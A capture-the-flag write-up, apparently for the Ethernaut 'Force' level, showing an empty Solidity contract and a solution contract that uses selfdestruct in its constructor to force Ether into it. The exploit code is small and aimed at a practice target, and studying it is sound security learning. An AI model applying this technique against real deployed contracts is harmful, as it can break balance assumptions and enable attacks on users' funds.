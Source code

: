  # Type - Beyond the console

 *** 
 

# Some contracts will simply not take your money  ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

* Fallback methods
* Sometimes the best way to attack a contract is with another contract.
* See the "?" page above, section "Beyond the console"

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

***

## Solution

1. Get a new instance of the contract
2. We can use the selfdestruct() method. Smart contracts can receive Ether from other contracts as a result of a selfdestruct() call.

```
contract Hack { 
  constructor(address payable _force) payable {
    selfdestruct(_force);
  }
}
```


